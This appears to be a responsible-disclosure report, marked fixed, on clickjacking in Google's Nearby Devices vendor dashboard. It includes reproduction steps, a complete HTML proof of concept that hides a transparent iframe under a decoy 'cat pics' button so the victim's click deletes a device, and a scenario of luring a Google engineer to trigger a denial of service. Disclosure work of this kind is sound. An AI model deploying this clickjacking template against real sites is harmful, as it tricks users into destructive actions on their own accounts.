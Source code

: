 ```yaml
---
layout: post
slug: "0005"
vendor: "Google"
status: "fixed"
reported: "2021-02-16"
title: "Clickjacking in Google Fast Pair Vendor Dashboard"
---
```


**Summary:**

Clickjacking is possible on the Nearby Devices Dashboard. Using this, (among other things) an attacker could create a malicious webpage which can trick a victim into deleting his/her own device.

**POC Video:**

[https://youtu.be/kqfsgEJjgEM](https://youtu.be/kqfsgEJjgEM) (`00:15`) (`music`)

**Core Issue:**

The Nearby Devices Dashboard page on `https://developers.google.com/nearby/devices/` actually embeds `https://developers-dot-devsite-v2-prod.appspot.com/nearby/devices/index_c4c5649698417947f28fa2ba0f3267ae10a9a13b3b687a720a65984cfff9e812.frame`, which displays the Dashboard. This host behaves just like `developers.google.com`, but looks like an AppEngine App.

The host `developers-dot-devsite-v2-prod.appspot.com` doesn't have any framing protections.

When a victim uses the Nearby Devices Dashboard, she has to log in. When she logs in, since the whole Dashboard is in an iframe, the login cookies get set on `developers-dot-devsite-v2-prod.appspot.com`.

So, its possible to embed `developers-dot-devsite-v2-prod.appspot.com`, and a victim will have valid cookies, so the embedded frame will be logged in.

**Steps to reproduce:**

1. Create/log into a Google account
2. Go to `https://developers.google.com/nearby/devices/`, log in, and create a GCP project when prompted
3. Go to `Add Device`, and create a new device. (Choose `Fast Pair` -> `Headphones` for the least required fields & You must upload an 512x512 image)
4. Convert the new device's `Model ID` from hex to decimal (e.g. for the Pixel Buds: `0x92BBBD` -> `9616317`)
5. Open the POC HTML file from below, and add the ID after the `#` sign in the URL (e.g. `poc.html#9616317`)
6. When the POC loads, see that the device management page got embedded, and clicking the `Click here for cat pics!!` deletes the victim's device

**POC Code:**

```
<html>
    <body>
        <button id="button" style="pointer-events: none;z-index:1;left:460px;position:relative;top:-330px;background-color: greenyellow;"><b>Click here for<br/>cat pics!!</b></button>
        <iframe id="iframe" width=500px height=500px style="opacity: 0.1;"></iframe>
    </body>
    <script>
        document.getElementById("iframe").src = "https://developers-dot-devsite-v2-prod.appspot.com/nearby/devices/index_c4c5649698417947f28fa2ba0f3267ae10a9a13b3b687a720a65984cfff9e812.frame#/devices/view/" + window.location.hash.substring(1);

        window.addEventListener("blur", function(){
            var elem = document.createElement('iframe');
            elem.style.cssText = 'position:absolute;width:50%;height:50%;z-index:100';
            elem.src = "https://www.youtube.com/embed/5wOXc03RwVA?autoplay=1"
            document.body.appendChild(elem);
        });
    </script>
</html>
```

**Real-world Attack:**

*Attacker wants to delete the second generation Pixel Buds device, to cause a DOS for users who want to pair with it.*

1. Attacker buys a Pixel Buds
2. [From the BLE advertisements](https://developers.google.com/nearby/fast-pair/spec#advertising_payload_fast_pair_model_id_data), Attacker notes that the Pixel Buds has a `Model ID` of `0x92BBBD`
3. Attacker converts this ID to decimal `0x92BBBD` -> `9616317`
4. Attacker sets up the POC, and sends the malicious link (`poc.html#9616317`) to a Google Engineer who is logged into the Nearby Devices Dashboard and has access to the Pixel Buds device
5. If the Google Engineer clicks `Click here for cat pics!!`, the Pixel Buds device gets deleted, probably causing a DOS/other issues for users who want to pair with their Pixel Buds

**[Disclosure Warning]:**

**This issue is subject to a 90 day disclosure deadline.** On `2021-05-17` this issue will be publicly disclosed. If you would like to redact additional information or if for some reason the issue can't be fixed until the deadline, let me know in a comment.

Thank you!
